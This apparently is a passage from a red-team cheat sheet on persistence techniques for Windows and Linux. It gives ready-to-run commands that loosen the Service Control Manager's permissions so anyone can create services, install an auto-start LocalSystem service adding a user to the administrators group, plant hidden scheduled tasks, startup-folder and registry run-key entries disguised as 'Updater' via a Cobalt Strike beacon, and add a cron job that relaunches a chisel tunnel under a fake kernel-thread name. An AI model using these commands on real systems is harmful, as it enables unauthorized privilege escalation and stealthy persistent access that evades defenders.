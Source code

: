 {% embed url="https://twitter.com/0gtweet/status/1628720819537936386" %}

Backup current SDDL for `scmanager`:

```
Cmd > sc.exe sdshow scmanager
```

Change it to allow everyone to create a service:

```
Cmd > sc.exe sdset scmanager D:(A;;KA;;;WD)
```

Create a service that will auto run at next reboot:

```
Cmd > sc.exe create lpesvc displayName= "lpesvc" binPath= "C:\Windows\System32\net.exe localgroup administrators snovvcrash /add" obj= LocalSystem start= auto
```

Check if `scmanager` SDDL has been modified:

```
PS > ConvertFrom-SddlString -Sddl $(sc.exe sdshow scmanager | select -Last 1) | select -Expand DiscretionaryAcl
```



### Tools


#### SharPersist

- [https://github.com/fireeye/SharPersist](https://github.com/fireeye/SharPersist)

```
beacon> execute-assembly SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <BASE64_CMD>" -n "Updater" -m add -o hourly
beacon> execute-assembly SharPersist.exe -t startupfolder -f "UserEnvSetup" -m add
beacon> execute-assembly SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```




## Linux



### Cron

Quicky crontab without duplicating backdoor process if already running:

```
$ echo 'if [ -z "$(pwdx $(pgrep chisel) 2>/dev/null | grep home)" ]; then $(cd /home/user/.local/lib; export PATH=.:$PATH; exec -a "kworker/0:2-events" chisel & disown); fi' > /home/user/.local/.1
$ (crontab -l; echo '* * * * * /home/user/.local/.1') | crontab -
```
